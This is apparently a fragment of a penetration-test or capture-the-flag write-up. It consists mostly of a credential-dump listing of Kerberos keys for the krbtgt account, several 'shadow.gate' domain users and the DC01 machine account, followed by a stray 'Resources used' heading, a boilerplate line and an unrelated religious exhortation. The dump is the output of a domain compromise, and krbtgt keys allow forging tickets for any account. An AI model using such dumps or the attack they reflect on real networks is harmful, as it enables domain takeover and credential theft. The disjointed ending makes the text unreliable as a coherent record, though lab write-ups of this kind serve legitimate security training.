krbtgt:aes128-cts-hmac-sha1-96:03ed2c0be5231fb6bd698d2bc18b9e39
krbtgt:des-cbc-md5:4a5286207f83ae7c
shadow.gate\ATHENA:aes256-cts-hmac-sha1-96:133c566ee74c769acbe2ed903383ebb721ed068c4dd0eef66fb1b0903c47c383
shadow.gate\ATHENA:aes128-cts-hmac-sha1-96:fe90309b458fb3c871d1e71bab58e47b
shadow.gate\ATHENA:des-cbc-md5:e5d6915ee9a2e09e
shadow.gate\mbrownlee:aes256-cts-hmac-sha1-96:15298afcd4a48b82446a25a4fb0dcc79759d29035eaf185a2f7dc55717792f32
shadow.gate\mbrownlee:aes128-cts-hmac-sha1-96:8a62a664980f32985c2093fde8fa5085
shadow.gate\mbrownlee:des-cbc-md5:9de9ef02b008527f
shadow.gate\bbrown:aes256-cts-hmac-sha1-96:c0147f35c874bb289bd827e02787c587a0e975561659c1eb32238505044f9026
shadow.gate\bbrown:aes128-cts-hmac-sha1-96:977d546c11489221d0601de2f48b6a2d
shadow.gate\bbrown:des-cbc-md5:924929ba3efe1343
shadow.gate\jtrueblood:aes256-cts-hmac-sha1-96:2babc2cf18a6871b671c62fb2a4836ec2e1ce5590c18148986228929d44f9030
shadow.gate\jtrueblood:aes128-cts-hmac-sha1-96:50afd603eef473bdf7be45640ad5d013
shadow.gate\jtrueblood:des-cbc-md5:016e2cb50bfe072f
shadow.gate\jsmith:aes256-cts-hmac-sha1-96:7c4104c37ac87fbbf5d64684250193419e86f3d18eae9a17d23417f5a86eed45
shadow.gate\jsmith:aes128-cts-hmac-sha1-96:5d4afe0536471fb8650106fbda7fcf05
shadow.gate\jsmith:des-cbc-md5:100285bfe3d0ae45
shadow.gate\clocke:aes256-cts-hmac-sha1-96:3887edec327295e751ea7826c1b4b032237279891553f1d8fe7ef397f5890de5
shadow.gate\clocke:aes128-cts-hmac-sha1-96:28e81233b8dfba552878076eead12862
shadow.gate\clocke:des-cbc-md5:0db36ec83dad3834
shadow.gate\tclarke:aes256-cts-hmac-sha1-96:254bd9d7ba3833aafebf3a0f1edc10a161d70d1ac25e6895f281945857cf99a8
shadow.gate\tclarke:aes128-cts-hmac-sha1-96:75661c8dca12a1c9512949f5e3737a62
shadow.gate\tclarke:des-cbc-md5:a18c7f2f85202ad6
shadow.gate\jbradford:aes256-cts-hmac-sha1-96:25d94c55601327b69d96ff3d9c5a1bc74aab4af9079edb258fb4060f04987a20
shadow.gate\jbradford:aes128-cts-hmac-sha1-96:2d9e35f40db8fb1a835c69560617e30d
shadow.gate\jbradford:des-cbc-md5:c81fef8ff1b6e50d
shadow.gate\amoss:aes256-cts-hmac-sha1-96:12cbcd17842055be7d1b44d668179d17afff0fc02723b00303a63dfd71dd78ce
shadow.gate\amoss:aes128-cts-hmac-sha1-96:b2619bff579c763dcee02282bf877c7a
shadow.gate\amoss:des-cbc-md5:86898989f8e3675e
DC01$:aes256-cts-hmac-sha1-96:b48cfdbbc68a013522d3e9535eb4cd9c209486f9ead0dec71e5254419304dbc0
DC01$:aes128-cts-hmac-sha1-96:cb99cb39803a7cb06e0b75cee0b150e7
DC01$:des-cbc-md5:fd51b6ab49daadcb
```


### Resources used

Action items, timeline, and resource requirements

__**Have you talked to Jesus today!**__